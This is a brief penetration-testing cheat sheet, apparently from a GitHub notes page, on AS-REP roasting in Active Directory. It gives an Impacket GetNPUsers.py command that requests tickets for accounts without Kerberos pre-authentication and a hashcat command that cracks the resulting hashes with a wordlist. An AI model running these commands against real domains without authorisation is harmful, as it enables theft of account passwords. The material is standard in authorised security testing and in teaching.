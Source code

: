 # Active Directory AS-REP Roasting

*Requirements :*  
Valid usernames list

## Retrieve TGT \ Impacket

```bash
GetNPUsers.py <TARGET DOMAIN>/ -dc-ip <DC IP>  -usersfile <USERLIST> -no-pass
```

## Crack TGTs \ hashcat

```bash
hashcat -a 0 -m 18200 <HASH FILE> /usr/share/wordlists/rockyou.txt
```